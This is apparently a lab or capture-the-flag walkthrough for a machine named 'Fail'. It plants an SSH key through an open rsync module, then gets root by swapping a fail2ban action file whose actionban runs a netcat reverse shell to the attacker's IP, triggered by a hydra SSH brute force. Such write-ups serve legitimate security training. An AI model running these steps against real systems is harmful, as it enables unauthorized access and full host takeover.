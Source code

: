 # Fail

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:08 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

Rsync was the only thing available.

### Rsync Enum --> SSH

Hacktricks has a whole page for RSync we can follow:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

We can first do further enumeration on the modules available:

```
$ nmap -sV --script "rsync-list-modules" -p 873 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:09 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

`fox` might be the user present on the machine. We can list the files present:

```
$ rsync -av --list-only rsync://fox@192.168.243.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile
```

What we do is create a new `.ssh` directory and place our public key within it:

```bash
mkdir .ssh
chmod 700 .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

Then, transfer it to the machine:

```
$ rsync -av .ssh rsync://fox@192.168.243.126/fox
sending incremental file list
.ssh/
.ssh/authorized_keys

sent 534 bytes  received 67 bytes  240.40 bytes/sec
total size is 391  speedup is 0.65
```

Then, we can `ssh` in:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Fail2ban --> Root

The user is able to edit the `fail2ban` configuration files to execute commands as `root` since `fox` is part of that group.&#x20;

We just need to create a malicious `iptables-multiport.conf` file like this:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = nc 192.168.45.231 80 -e /bin/bash
# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]

```

Afterwards, replace the actual file with our malicious one, where the `actionban` has been edited.&#x20;

```
fox@fail:/etc/fail2ban/action.d$ rm iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ wget 192.168.45.231:21/iptables-multiport.conf
--2023-07-17 09:23:58--  http://192.168.45.231:21/iptables-multiport.conf
Connecting to 192.168.45.231:21... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1401 (1.4K) [application/octet-stream]
Saving to: ‘iptables-multiport.conf’

iptables-multiport.conf 100%[============================>]   1.37K  --.-KB/s    in 0s      

2023-07-17 09:23:59 (183 MB/s) - ‘iptables-multiport.conf’ saved [1401/1401]
```

To trigger it, just generate a lot of `ssh` tries with `hydra`:

```
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.243.126 ssh
```

We would then get a reverse shell back as `root`:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
